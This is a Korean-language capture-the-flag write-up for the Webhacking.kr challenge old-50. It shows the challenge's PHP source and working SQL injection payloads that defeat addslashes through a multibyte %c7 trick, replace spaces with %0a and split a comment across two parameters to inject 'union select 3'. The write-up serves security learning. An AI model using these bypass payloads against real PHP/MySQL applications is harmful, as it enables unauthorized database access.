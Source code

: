```yaml
---
title: ["[Webhacking.kr] old-50 (sqli - 45)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli]
---
```


```php
<?php
  if($_GET['id'] && $_GET['pw']){
    $db = dbconnect();
    $_GET['id'] = addslashes($_GET['id']); 
    $_GET['pw'] = addslashes($_GET['pw']);
    $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
    foreach($_GET as $ck) if(preg_match("/from|pw|\(|\)| |%|=|>|</i",$ck)) exit();
    if(preg_match("/union/i",$_GET['id'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select lv from chall50 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
    if($result){
      if($result['lv']==1) echo("level : 1<br><br>");
      if($result['lv']==2) echo("level : 2<br><br>");
    } 
    if($result['lv']=="3") solve(50);
    if(!$result) echo("Wrong");
  }
?>
```

이번 문제는 old-45와 유사해보인다.  

```sql
select lv from chall50 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')
```  
마찬가지로, `id`에 인젝션을 해야된다.  

```sql
select lv from chall50 where id='0' or lv=3 #' and pw=md5('123')
```
이렇게 동작시키면 되겠다.  

`'`에 대한 `addslashes()`함수의 동작은 old-45의 방법을 사용하면 되고,  

`(`, ` ` 이 사용이 안되므로 `%0a`를 사용해서 공백 필터를 우회할 수 있다.  

```
?id=1%c7'or%0alv%0alike%0a1%23&pw=123
```
해당 쿼리는 `level : 1`을 응답하는데,  

```
?id=1%c7'or%0alv%0alike%0a3%23&pw=123
```
lv=3인 쿼리는 `Wrong` 응답이 온다.

DB에 `lv=3`인 데이터가 없다는 뜻이다.  
데이터가 없을 때는 `union`으로 값을 넣어야되는데,  
`id`에는 `union`이 필터링되어 있다.  

즉, 인젝션 포인트가 `id`가 아니라 `pw`이다.  

`md5()`함수가 동작하지 않도록 하려면, `id`에서부터 쭉 주석처리를 하면 된다.  

```sql
select lv from chall50 where id='0'/*' and pw=md5('*/union select 3#')
```

```
?id=1%c7'%2f%2a&pw=%2a%2funion%0aselect%0a3%23
```